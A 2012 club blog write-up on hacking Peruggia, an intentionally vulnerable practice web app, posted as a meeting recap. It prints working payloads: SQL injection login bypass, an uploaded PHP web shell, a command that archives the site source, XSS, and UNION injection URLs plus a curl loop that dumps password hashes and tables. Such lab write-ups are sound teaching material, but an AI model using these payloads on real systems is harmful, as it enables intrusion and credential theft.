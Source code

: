 ```yaml
---
author: pralz
comments: true
date: 2012-09-26 19:49:18+00:00
layout: post
slug: peruggia-writeup
title: Peruggia Writeup
wordpress_id: 181
categories:
- Meeting Re-caps
---
```


Kris and I did some 'pair hacking' on peruggia at this week's meeting, and here are the things we came up with._** Lots of spoilers below.**_


# Logging in


Right off the bat, we were able to login as username: admin, password: admin. From there we could make/delete users, change passwords, upload/delete stuff and all those good admin-y type things.

Were it not the case that the admin password was so easy to guess, we also found an** SQL injection vulnerability in the username field**. The source for the query looks like:

[code]$creds = mysql_query("SELECT * FROM users WHERE username='".$_POST['username']."' AND password='".md5($_POST['password'])    ."'", $conx);[/code]

As you can see, _$_POST['username']_ is inserted into the query without any sanitizing, so entering a username such as:

[code]a' || 1=1 --%20[/code]

(**important**: there should be a space at the end of the string, but wordpress chops it off - substituted %20)
will cause the resulting query to be:

[code]SELECT * FROM users WHERE username='a' || 1=1 -- ' AND password='".md5($_POST['password'])    ."'"[/code]

and will always evaluate to true. Since admin is the first user in the db and thus the first row returned, it will log you in as admin!


# Getting shell and source


Once logged in we were able to upload pictures. The uploader is insecure though and allowed us to upload a php script instead of an image. And it uploads into the _/images/_ directory, which is publicly readable, so we could visit the script url and get output. Here's the script we used:

[code]<?php
 echo system($_GET['foo']);
 ?>[/code]

Getting shell was just that easy! Now by setting the foo parameter we could run arbitrary commands on the server (as the current user, which was www-data). For instance, if your uploaded file was called bar.php, visiting

[code]/images/bar.php?foo=ls[/code]

will give you the output of ls on the server. We wanted the source, so we did

[code]/images/bar.php?foo=tar+zvcf+../src.tar+../.[/code]

which tar'd up the entire parent directory (which has the whole website source code) and left it readable to be downloaded.

(As a note here, since the app thought our script was a picture, other people were able to delete it with the click of a button on the admin page. This got annoying quick so we used our script to call mv on itself and moved it to a location where it wasn't so easy to delete).

After getting the source it was **ezmode** since it's littered with different vulnerabilities that are free for the taking. Here are a few we found and exploited:
* XSS on the comments. Make a comment with the text

[code]<script>alert('lolol')</script>[/code]

and it will run on the page of whoever visits, because the comments are being inserted into the html without any sanitizing.

* The "learn" page had a XSS vuln on the _type_ parameter in the url, as well as an RFI (remote file include) vuln on the _paper_ parameter. If you put the url of a php script in the paper parameter it will be included on the page.


# Reading the whole db!


For my favorite of the night, we used the source to find that the _pic_id_ parameter for the comments page was being inserted directly into an SQL statement, and thus we were able to inject into it. However, unlike the login SQL injection which simply logged us in, this injection displayed information from it's query onto the page. As a result we can _UNION_ to a query that we craft to return anything from the database. SQL _UNION_ will only work if the result from both queries has the same number of columns, so we had to first pad our crafted query until we got it right.
A benign request to the page looks like

[code]/index.php?action=comment&pic_id=1[/code]

So we did this: _/index.php?action=comment&pic_id=1+union+select+1+from+users+--+_

but our 1 didn't show up on the page. Trying _/index.php?action=comment&pic_id=1+union+select+1,1+from+users+--+_ still got nothing. We continued in this fashion until

[code]/index.php?action=comment&pic_id=1+union+select+1,1,1,1+from+users+--+[/code]

yielded a 1 (under the uploaded by area?) where it had before been nothing. Success! We now knew the **query was expecting 4 columns to be returned** and that the fourth  is being output right onto the page. With a small guess on the column name it wasn't much a jump to get

[code]/index.php?action=comment&pic_id=1+union+select+1,1,1,password+from+users+--+[/code]

which displayed the password (md5 hashed) for the first user in the db. It was the admin password hash, so with a quick google search the password was found ;)

This only works if the first user in the db is the only password hash you want, but we got greedy and decided we wanted them **all**. To accomplish this we used the _LIMIT_ and _OFFSET_ SQL commands as such:

[code]/index.php?action=comment&pic_id=1+union+select+1,1,1,password+from+users+limit+1+offset+0+--+[/code]

By changing the offset number, you can get any row returned by the query.

Of course if the database had hundreds or more users this would take a long time by hand, so Kris suggested we write a script to dump all the rows for us, which we did as a bash one liner.

[code]for X in {0..200}; do curl -s "http://192.168.1.100/peruggia/index.php?action=comment&pic_id=1+UNION+SELECT+1,1,1,password+from+users+LIMIT+1+OFFSET+$X+--+" | grep Uploaded;  done[/code]

What this does is cycle through the provided range which changes the $X we have at the end of the query string for the offset. curl will return the entire page from the http request (the -s is for silent) and pipe it into grep where we're looking for the relevant line of the page source (the uploaded by part where the password will be dumped).

Using this same one liner with a slightly tweaked SQL statement you can dump whatever you want in the db. For instance, if you wanted to know the name of all the tables that exist you can do something like

[code]for X in {0..200}; do curl -s "http://192.168.1.100/peruggia/index.php?action=comment&pic_id=1+UNION+SELECT+1,1,1,table_name+from+information_schema.tables+LIMIT+1+OFFSET+$X+--+" | grep Uploaded;  done[/code]

which will dump all the table names from the meta table called information_schema.

Now you should be a pro, so go download peruggia and try this stuff yourself!

pralz
